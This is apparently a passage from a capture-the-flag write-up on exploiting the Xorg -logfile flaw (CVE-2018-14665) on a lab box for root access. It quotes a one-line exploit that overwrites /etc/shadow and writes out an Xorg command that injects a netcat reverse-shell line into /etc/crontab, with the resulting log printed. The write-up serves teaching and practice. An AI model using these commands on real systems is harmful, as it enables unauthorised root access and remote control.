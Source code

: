 There are tons of scripts on GitHub etc that will exploit this vulnerability automatically. There’s also a Metasploit module. I’m going to do it manually.

The basic vulnerability is pretty simple: Xorg, assuming it’s running setuid, can overwrite a log file wherever the user tells it to with whatever data the user gives it. There will be other data in there, but that can still be quite powerful.

For example, HackerFantastic on Twitter tweeted out a [POC in a single tweet](https://twitter.com/hackerfantastic/status/1055517801224396800):

> #CVE-2018-14665 - a LPE exploit via <https://t.co/eax3fvaAjE> fits in a tweet  
>   
> cd /etc; Xorg -fp "root::16431:0:99999:7:::" -logfile shadow :1;su  
>   
> Overwrite shadow (or any) file on most Linux, get root privileges. \*BSD and any other Xorg desktop also affected.
>
> — Hacker Fantastic (@hackerfantastic) [October 25, 2018](https://twitter.com/hackerfantastic/status/1055517801224396800?ref_src=twsrc%5Etfw)

#### Exploit

With that in mind, there are a few places I could target. The `/etc/master.passwd` file (like `/etc/shadow` on BSD). I’ll go for the `crontab`.

I started a listener on port 443, and then wrote my cron:

```

ypuffy$ Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f" -logfile crontab :1 &

```

This will error out (and I’ll have to kill it), but it will also write that dump to a log file which I specified, `/etc/crontab`.

I can look at that file:

```

[178588.565] (WW) checkDevMem: failed to open /dev/xf86 and /dev/mem
        (Operation not permitted)
        Check that you have set 'machdep.allowaperture=1'
        in /etc/sysctl.conf and reboot your machine
        refer to xf86(4) for details
[178588.565]    linear framebuffer access unavailable
[178588.779] (--) Using wscons driver on /dev/ttyC4
[178588.788]
X.Org X Server 1.19.6
Release Date: 2017-12-20
...[snip]...
[178588.790] (==) Max clients allowed: 256, resource mask: 0x1fffff
[178588.790] (++) FontPath set to:
        * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f
[178588.790] (==) ModulePath set to "/usr/X11R6/lib/modules"
[178588.790] (II) The server relies on wscons to provide the list of input devices.
        If no devices become available, reconfigure wscons or disable AutoAddDevices.
[178588.790] (II) Loader magic: 0x199318742000
...[snip]...
Fatal server error:
[178588.796] (EE) Caught signal 11 (Segmentation fault). Server aborting
[178588.796] (EE) 
[178588.796] (EE) 
Please consult the The X.Org Foundation support 
         at http://wiki.x.org
 for help. 
```